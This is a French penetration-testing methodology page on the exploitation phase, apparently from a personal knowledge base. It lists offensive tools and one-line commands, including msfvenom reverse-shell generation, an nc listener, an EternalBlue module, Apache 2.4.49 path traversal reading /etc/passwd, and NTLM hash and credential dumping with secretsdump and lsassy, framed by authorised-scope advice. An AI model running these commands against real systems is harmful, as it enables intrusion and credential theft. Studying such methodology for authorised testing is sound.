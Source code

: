 
## 💥 Exploitation

---

## Introduction

La phase d’<span class="concept">exploitation</span> vise à transformer les informations collectées lors des phases précédentes (scanning + enumeration) en <span class="goal">accès initial</span> sur la cible.

Il ne s’agit pas seulement de « faire un exploit », mais de :
- Identifier un vecteur d’entrée
- Choisir un mode d’exploitation contrôlé
- Obtenir un shell, un compte, ou un accès aux données

L’exploit doit toujours être adapté au <span class="concept">contexte cible</span> (ex: prod vs CTF).

---

## Objectifs

- <span class="goal">Compromettre un système ou un service</span>
- <span class="goal">Obtenir un shell ou des credentials</span>
- <span class="goal">Maintenir la stabilité de la cible</span>

---

## Outils & commandes

| Outil | Exemple & explication |
|-------|-----------------------|
| <span class="technology">searchsploit</span> | <span class="example">searchsploit apache 2.4.49</span> → <span class="note">Recherche d’exploits connus (EDB)</span> |
| <span class="technology">exploit-db.com</span> | <span class="example">Recherche en ligne</span> |
| <span class="technology">Impacket / CrackMapExec</span> | <span class="example">cme smb target --shares</span> / <span class="example">impacket-psexec</span> |
| <span class="technology">Metasploit (msfconsole)</span> | <span class="example">use exploit/windows/smb/ms17_010_eternalblue</span> |
| <span class="technology">python3 / bash exploits</span> | <span class="example">python3 exploit.py target</span> |
| <span class="technology">nmap NSE vuln</span> | <span class="example">nmap --script vuln -p 80,443 target</span> |
| <span class="technology">Chisel / Ligolo</span> | <span class="example">Pivoting vers réseaux internes</span> |
| <span class="technology">Socat</span> | <span class="example">Reverse shell controlé</span> |
| <span class="technology">msfvenom</span> | <span class="example">msfvenom -p windows/meterpreter/reverse_tcp LHOST=... -f exe</span> |

---

## Vérifications avant exploitation

- <span class="best-practice">Valider le périmètre et les cibles autorisées</span>
- <span class="best-practice">Confirmer l’impact métier potentiel</span> (ex: prod vs test)
- <span class="best-practice">S’assurer de la stabilité de la cible (pas de DoS)</span>
- <span class="best-practice">Logger les exploits tentés et leur résultat</span>

---

## Techniques principales

| Vecteur | Exemple |
|---------|---------|
| <span class="concept">Web Exploit</span> | SQLi, XSS → RCE / LFI |
| <span class="concept">Réseau</span> | SMB exploit, SNMP exploit |
| <span class="concept">Local privilege exploit</span> | Kernel vuln, SUID abuse |
| <span class="concept">Credential reuse</span> | Compte AD compromis |
| <span class="concept">Password spraying / bruteforce</span> | Hydra / CrackMapExec |

---

## Bonnes pratiques

- <span class="best-practice">Toujours valider l’impact métier avant d’exploiter en prod</span>
- <span class="best-practice">Limiter les risques d’instabilité (DoS involontaire)</span>
- <span class="best-practice">Préférer un shell interactif stable</span>
- <span class="mitigation">Ne jamais exécuter un exploit destructif</span>

---

## 🎯 Exemple de scénario

> <span class="note">💥 Cible :</span> Web server Apache 2.4.49 vulnérable (path traversal)

Actions :
- <span class="technology">searchsploit apache 2.4.49</span> → exploit path traversal connu
- <span class="technology">python3 exploit.py target</span> → accès /etc/passwd en lecture
- <span class="technology">msfvenom</span> → reverse shell PHP généré
- <span class="technology">nc -lvnp 4444</span> → réception du shell
- <span class="technology">Chisel</span> → pivot vers un serveur DB en interne


---

## 🎯 Exemple complémentaire (SMB / AD)

> <span class="note">💥 Cible :</span> Contrôleur de domaine exposant SMB / RPC

Actions :
- <span class="technology">cme smb target --shares</span> → énumération des partages
- <span class="technology">cme smb target -u admin -p 'Summer2024!'</span> → test login et accès distant
- <span class="technology">impacket-secretsdump -target</span> → extraction de hashes NTLM
- <span class="technology">lsassy</span> → dump de credentials sur hôte Windows
- <span class="technology">impacket-psexec</span> → exécution de commande à distance


---

## Liens vers escalation

- Shell → <span class="goal">Enumération pour escalade (priv esc)</span>
- Dump creds → <span class="goal">Mouvement latéral (lateral movement)</span>
- Web exploit → RCE → pivoting possible
- SMB exploit → accès AD


---

## Exploitation offline

- <span class="best-practice">Certains pentests pros n’autorisent pas d’accès Internet depuis la cible</span>
- Prévoir des <span class="technology">payloads offline</span> (reverse shell restreint, msfvenom en local)
- Utiliser un <span class="technology">pivot</span> pour acheminer les flux (Chisel, socks4 proxychains)


---

## Cheatlist outils par vecteur

| Vecteur | Outils clés |
|---------|------------|
| Web Exploit | searchsploit, exploit-db, Metasploit, python exploit |
| Réseau (SMB, RDP) | CrackMapExec, Impacket, Metasploit |
| AD Internal | CrackMapExec, Impacket, BloodHound |
| Local kernel / SUID | LinPEAS, winPEAS, searchsploit |
| Pivot | Chisel, Ligolo, Proxychains |
| Reverse shell | msfvenom, socat, nc |

---

## 🚀 Navigation

- 🚀 [[06_Privilege_Escalation]]
- 🚀 [[07_Post_Exploitation]]
